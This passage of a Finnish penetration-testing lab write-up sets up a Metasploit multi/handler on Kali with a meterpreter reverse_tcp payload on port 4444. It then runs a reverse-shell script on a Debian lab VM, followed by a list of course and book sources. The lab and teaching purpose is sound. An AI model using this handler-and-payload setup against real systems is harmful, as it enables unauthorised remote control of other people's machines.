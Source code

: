 Seuraavaksi pitää varmastikin tehdä multi/handler konfigurointi Kalissa. 

Tein msfconsolen multi/handler konfiguroinnin seuraten Occupytheweb kirjaa [^15]. (avasin myös Kalin palomuurista portin 4444)

```bash
┌──(parallels㉿kali-linux-2024-2)-[~/Downloads]
└─$ msfconsole
Metasploit tip: Use the edit command to open the currently active module 
in your editor
                                                  
     ,           ,
    /             \                                                                                                                                         
   ((__---,,,---__))                                                                                                                                        
      (_) O O (_)_________                                                                                                                                  
         \ _ /            |\                                                                                                                                
          o_o \   M S F   | \                                                                                                                               
               \   _____  |  *                                                                                                                              
                |||   WW|||                                                                                                                                 
                |||     |||                                                                                                                                 
                                                                                                                                                            

       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/aarch64/meterpreter/reverse_tcp
PAYLOAD => linux/aarch64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.13
LHOST => 10.211.55.13
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.211.55.13:4444 
```

Ajetaan shell ohjelma Debianissa:

```bash
vagrant@debian-12:~$ ./reversetcp.sh
-bash: ./reversetcp.sh: Permission denied
vagrant@debian-12:~$ ls -l
total 4
-rw-r--r-- 1 vagrant vagrant 1009 Apr 22 15:58 reversetcp.sh
vagrant@debian-12:~$ sudo chmod ugo+x reversetcp.sh
vagrant@debian-12:~$ ./reversetcp.sh
```


[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Tero Karvinen. Cracking Passwords with Hashcat: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/
[^3]: man tar
[^4]: man hashid
[^5]: hashcat. Example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
[^6]: Tero Karvinen. Crack File Password With John: https://terokarvinen.com/2023/crack-file-password-with-john/
[^7]: Stack Exchange. Best way to encrypt a file with just password (no keypairs) that is easily usable/decryptable on both Linux and macOS?: https://unix.stackexchange.com/questions/749766/best-way-to-encrypt-a-file-with-just-password-no-keypairs-that-is-easily-usabl
[^8]: man gpg
[^9]: Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/
[^10]: Kennedy et al 2025: Metasploit: File-Format Exploits: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#toc-link_128
[^11]: Singh 2025: The Ultimate Kali Linux Book: Understanding Active Directory: https://learning.oreilly.com/library/view/the-ultimate-kali/9781835085806/Text/Chapter_12.xhtml#_idParaDest-272
[^12]: Kennedy et al 2025: Metasploit: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter6.xhtml#toc-link_85
[^13]: Jobin J. How to Set Up a File Download Server on Ubuntu with Apache: https://medium.com/@techworldthink/how-to-set-up-a-file-download-server-on-ubuntu-with-apache-c35bc03eb218
[^14]: pentestTV. MSFvenom Demystified: Unlocking the Power of Exploit Shellcode: https://www.youtube.com/watch?v=ROBLGTEqUBQ
[^15]: Occupytheweb. Getting Started Becoming a Master Hacker. https://www.amazon.com/Getting-Started-Becoming-Master-Hacker/dp/1711729299
[^16]: man msfvenom